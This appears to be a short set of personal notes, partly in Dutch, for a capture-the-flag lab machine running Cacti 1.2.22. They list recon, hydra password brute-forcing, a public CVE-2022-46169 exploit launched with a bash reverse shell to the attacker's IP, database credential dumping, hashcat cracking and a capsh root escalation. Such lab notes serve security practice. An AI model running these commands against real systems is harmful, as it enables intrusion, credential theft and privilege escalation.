




`sudo openvpn lab_bluejund.ovpn`

`nmap <ip>`

http nikto

`nikto -h <ip>`

**BurpSuite is een proxy server**

--- 
csrf context request forgery

**hydra**

`hydra -l admin -P /user/share/wordlist/rockyou.txt 10.10.11.211 http-post-form`

google cacti 1.2.22 vulnerability

https://github.com/sAsPeCt488/CVE-2022-46169

https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/

`python3 -m http.server 9000`

`python3 CVE-2022-46169.py http://10.10.11.211 -c "curl 10.10.14.46:9000`

`python3 CVE-2022-46169.py -c "bash -c 'bash -i >& /dev/tcp/10.10.14.43/5555 0>&1'" http://10.10.11.211`

`nc -nlvp 5555`

`bash -i >& /dev/tcp/10.10.14.48`

linpeas 

mysql --host db -u root -p -e 'show databases; use cacti; show tables;'

mysql --host db -u root -p -e 'use cacti; select * from user_auth;'

vervolgends `hashid <hashid>`

`johntheripper`

`hashcat`

`hashcat creds.txt --wordlist=/usr/share/wordlists/rockyou.txt -m 3200 --user`

https://gtfobins.github.io/gtfobins/capsh/

`/sbin/capsh --gid=0 --uid=0 --`